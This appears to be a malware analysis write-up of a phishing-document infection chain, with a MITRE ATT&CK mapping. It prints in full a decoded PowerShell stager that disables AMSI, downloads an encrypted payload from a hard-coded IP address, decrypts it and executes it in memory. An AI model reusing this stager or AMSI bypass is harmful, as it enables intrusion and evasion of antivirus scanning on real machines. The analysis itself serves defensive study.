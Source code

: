 **Execution Chain:**
```
Outlook ➡ Explorer ➡ Word ➡ WMI Provider Host ➡ PowerShell
```

<details><summary><strong>Read full explanation with log details</strong></summary></details>

Following the document execution, encoded PowerShell commands were executed:

```powershell
powershell -noP -sta -w 1 -enc [encoded_command]
```

PowerShell base64 encoded command decoded using CyberChef.

**Full Decoded PowerShell Command:**
```powershell
[REF].ASSEmblY.GeTTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GetFIELd('amsiInitFailed','NonPublic,Static').SetVaLue($nuLl,$TruE)};[SYsTEM.Net.SerVIcEPOinTMAnAGEr]::EXPEcT100CONtinue=0;$wC=NEw-OBjECT SysTem.NEt.WeBCliEnT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$Wc.HeADers.Add('User-Agent',$u);$Wc.PROXy=[System.NEt.WEBRequeST]::DefAUltWebPrOxy;$WC.PRoxy.CREDeNtIAls = [SySteM.NET.CRedENtiAlCAChE]::DeFAulTNETWoRkCreDENTIalS;$K=[SysTem.TExt.ENcOdiNG]::ASCII.GetBYTes('389288edd78e8ea2f54946d3209b16b8');$R={$D,$K=$ArgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COUNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BXoR$S[($S[$I]+$S[$H])%256]}};$WC.HeaDeRS.Add("Cookie","session=jknXpoa7pUA0lDB+nYiQvU9unHg=");$ser='https://45.77.65.211:443';$t='/login/process.php';$DATA=$WC.DoWnLoAdDaTa($SEr+$t);$IV=$DATa[0..3];$dATa=$DaTA[4..$daTa.LeNGtH];-joiN[CHar[]](& $R $data ($IV+$K))|IEX
```

**Decoded PowerShell Command Analysis:**
The PowerShell script performed the following malicious activities:
- Disabled AMSI (anti-malware scanning interface) to bypass defender scanning
- Set up a WebClient (blends in with browser behavior)
- Used encryption key: 389288edd78e8ea2f54946d3209b16b8
- Downloads encrypted payload from a remote server (https://45.77.65.211:443/login/process.php)
- Decrypts payload using a custom RC4-like function
- Executes the result in memory using IEX (Invoke-Expression)

The PowerShell indicates:
- Obfuscated PowerShell (Casing variation to avoid static detection) - [REF] is an obfuscated variant of [Ref]
- Encrypted remote payloads
- Runtime decryption and in-memory execution

**MITRE Attack Mapping:**

**[Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)**
- ID: T1059.001
- Sub-technique of: T1059
- Tactic: Execution

**[Obfuscated Files or Information: Embedded Payloads](https://attack.mitre.org/techniques/T1027/)**
- ID: T1027.009
- Sub-technique of: T1027
- Tactic: Defense Evasion
